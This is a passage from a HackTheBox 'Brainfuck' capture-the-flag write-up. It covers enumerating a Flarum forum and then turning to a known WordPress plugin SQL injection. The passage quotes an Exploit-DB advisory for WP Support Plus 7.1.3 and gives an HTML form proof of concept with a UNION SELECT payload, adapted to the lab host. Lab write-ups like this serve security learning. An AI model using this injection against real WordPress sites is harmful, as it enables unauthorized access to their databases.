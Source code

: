 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604171325.png)

```html
          <script>
        document.getElementById('flarum-loading').style.display = 'block';
      </script>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604171543.png)

Let's enumerate again!

**In the "Development" post, we found 2 same users again:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HackTheBox/Brainfuck/images/Pasted%20image%2020230604171658.png)

As expected, the user `admin` is an admin privilege user.

I also tried to find public exploits in Flarum, but nothing.

Then, I enumerated hidden directories and files, brute forced both users' password, no dice at all.

Let's take a step back.

**We still have 1 more thing in the WordPress CMS: SQL injection in Support Plus Responsive Ticket System 7.1.3!**

**`40939.txt`:**
```
# Exploit Title: WP Support Plus Responsive Ticket System 7.1.3 – WordPress Plugin – Sql Injection
[...]
1 - Description:

Type user access: any user. $_POST[‘cat_id’] is not escaped. Is accessible for any user.

http://lenonleite.com.br/en/blog/2016/12/13/wp-support-plus-responsive-ticket-system-wordpress-plugin-sql-injection/

2 - Proof of Concept:

<form action="http://target/wp-admin/admin-ajax.php" method="post">
<input type="text" name="action" value="wpsp_getCatName">
<input type="text" name="cat_id" value="0 UNION SELECT 1,CONCAT(name,CHAR(58),slug),3 FROM wp_terms WHERE term_id=1">
<input type="submit" name="">
</form>
[...]
```

The `<form>` element will send a POST request to `/wp-admin/admin-ajax.php`, with parameter `action` and `cat_id`. The `cat_id` is vulnerable to Union-based SQL injection.

**`40939_poc.html`:**
```html
<form action="https://brainfuck.htb/wp-admin/admin-ajax.php" method="post">
<input type="text" name="action" value="wpsp_getCatName">
<input type="text" name="cat_id" value="0 UNION SELECT 1,CONCAT(name,CHAR(58),slug),3 FROM wp_terms WHERE term_id=1">
<input type="submit" name="">
</form>
```
